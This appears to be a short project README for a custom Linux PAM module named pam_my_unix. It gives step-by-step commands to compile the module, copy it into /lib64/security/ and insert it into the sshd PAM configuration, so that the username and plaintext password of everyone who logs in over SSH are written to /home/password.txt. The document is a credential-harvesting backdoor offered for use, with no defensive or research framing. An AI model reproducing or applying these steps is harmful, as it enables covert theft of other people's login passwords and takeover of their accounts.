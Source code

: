 # PAM_MY_UNIX

## How to use
- check password file path
    This module will put username/password to `/home/password.txt`, you can change it in `main.c`.
    Just edit `const char *log_filename = "/home/password.txt";` and compile this PAM module.

- compile
    ``` sh
    cc main.c -o pam_my_unix.so -fPIC -m64 -shared -lpam
    ```

- move to the right directory
    ``` sh
    cp ./pam_my_unix.so /lib64/security/
    ```

- edit sshd's pam config.
    ``` sh
    vim /etc/pam.d/sshd
    ```
    And add the next line after the latest auth interface module:
    ``` sh
    auth optional pam_my_unix.so
    ```

    Maybe you file looks like this after you edit it.
    ```
    ...
    auth       required     pam_unix.so nullok
    auth       optional     pam_my_unix.so
    account    required     pam_nologin.so
    account    include      password-auth
    ...
    ```
- result
    When someone who is trying to auth via ssh, his username and password will log into a file.


